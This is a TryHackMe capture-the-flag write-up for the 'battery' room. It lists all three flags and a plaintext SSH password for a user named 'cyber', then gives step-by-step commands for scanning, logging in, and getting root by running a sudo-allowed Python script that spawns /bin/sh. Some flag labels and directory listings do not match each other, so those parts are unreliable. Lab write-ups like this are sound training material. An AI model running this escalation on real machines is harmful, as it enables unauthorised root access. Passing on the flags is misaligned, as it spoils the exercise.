 # <div align="center">[battery - TryHackMe Writeup](https://tryhackme.com/r/room/battery)</div>
<div align="center">CTF designed by CTF lover for CTF lovers</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/044f2d97-3571-49d0-811f-cb13b31d4293" height="200"></img>
</div>



## Task 1. battery

Electricity bill portal has been hacked many times in the past , so we have fired one of the employee from the security team , As a new recruit you need to work like a hacker to find the loop holes in the portal and gain root access to the server .

Hope you will enjoy the journey ! 

### Base Flag : 
```
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```
### User Flag :
```
THM{20c1d18791a246001f5df7867d4e6bf5}
```
Root Flag :
```
THM{db12b4451d5e70e2a177880ecfe3428d}
```

# Writeup

* ```nmap -sSCV <IP>```
* ```gobuster dir -u http://<IP> -w /usr/share/dirb/wordlists /common.txt -x txt,php```
* ```<IP>/register.php```
* ```<IP>/report```
* ```strings report```
* ```echo "base64EncodedString" | base64 -d >> output.php```
* ```cyber:super#secure&password!```
* ```ssh cyber@<IP>```
* ```cat flag1.txt```
```
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```

* ```sudo -l```
* ```echo 'import os; os.system("/bin/sh")' > /home/cyber/run.py```
* ```chmod +x run.py```
* ```cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py```
* ```cat /root/root.txt```
```
THM{20c1d18791a246001f5df7867d4e6bf5}
```

* ```cd /home```
* ```ls```
* ```cyber yash```
* ```cd cyber```
* ```ls```
* ```cyber yash```
* ```emergency.py fernet flag2.txt root.txt```
* ```cat flag2.txt```
```
THM{db12b4451d5e70e2a177880ecfe3428d}
```
